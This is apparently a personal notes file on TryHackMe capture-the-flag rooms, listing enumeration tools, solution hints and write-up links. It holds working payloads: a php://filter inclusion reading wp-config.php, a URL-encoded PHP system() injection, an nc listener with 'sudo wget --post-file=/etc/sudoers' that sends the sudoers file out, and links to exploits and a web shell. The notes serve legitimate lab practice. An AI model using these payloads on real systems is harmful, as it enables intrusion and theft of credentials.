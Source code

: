 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Reaped

* https://github.com/Hifumi1337/Bounty-Hacker
* https://security.stackexchange.com/questions/234859/inject-update-motd-d-00-header-to-run-a-script-on-ssh-login

<hr>

## Prev esc

--- https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

--- https://tryhackme.com/room/windowsprivesc20 🐍🐍🐍

<hr>

## Forced Browsing

[![webenumerationv2](../../../_badges/thmp/webenumerationv2.svg)](https://tryhackme.com/room/webenumerationv2)

* Nikto: sensitive files, vulnerabilities of the web server, misconfigurations
  * -h: headers and sensitive files
  * can take a nmap scan
  * `-p 80,8000,8080`
  * https://github.com/sullo/nikto/wiki/Plugin-list
  * -Plugin (ex: robots, cgi, ...)
  * -Display (verbosity): see the course
  * -Tuning search file upload...
  * -o Text/HTML report

<hr>

## Overconfidence

--- https://tryhackme.com/room/easyctf 🐍🐍⭐

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/lazyadmin 🐍🐍⭐

* nmap
* gobuster
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)

--- https://tryhackme.com/room/allinonemj 🐍🐍⭐

* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion, https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

--- https://tryhackme.com/room/ignite (done)

* default credentials => lead to nothing
* command injection

* echo -n "" > assets/images/test.phpx
* `%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27ls%27%29%2b%27`
* https://stackoverflow.com/questions/17420878/php-preg-match-delimiter-must-not-be-alphanumeric-or-backslash
* no need for the "1" in interact
* https://www.exploit-db.com/exploits/41240 (need for some tools to be installed :/)
* https://github.com/Arrexel/phpbash 
* could have used python from the start, baka
* https://exploits.run/
* the password of the db was reused...
* if I used quotes, it would have worked in one go...
* https://unicornsec.com/
* https://saharshtapi.github.io/
* https://atom.hackstreetboys.ph/
* https://stawm.design.blog/
* https://infosecjunky.com/
* https://marcorei7.wordpress.com/

--- https://tryhackme.com/room/c4ptur3th3fl4g (done)

* https://dencode.com/en/
* https://n0w4n.nl/
* https://github.com/s0md3v/Hash-Buster
* steg hide always ask for a password, can leave it blank
* strings to see the content of an image, wtf?
* Audacity/...
  * https://academo.org/demos/spectrum-analyzer/
  * https://hackedpatched.wordpress.com/
  * https://morsecode.world/international/decoder/audio-decoder-adaptive.html
  * apt install audacity (click on the file name->wav to spectrogram)
* https://www.tunnelsup.com/hash-analyzer/
* https://futureboy.us/stegano/
* https://xavag3djang0.github.io/
* https://0xnirvana.gitbook.io/writeups/
* https://robertmuwanga.netlify.app/
* https://niekdang.wordpress.com/

--- https://tryhackme.com/room/wgelctf

* use common first, before small/...
* `document.firstChild.nextSibling.innerHTML.match(/<!--.*?-->/g)`
* `wget -q`
* `nc -dlnp 4444 -q 0 > /tmp/sudoers &`
* `sudo wget --post-file=/etc/sudoers localhost:4444`

List

* html comments
* gobuster
* sudo -l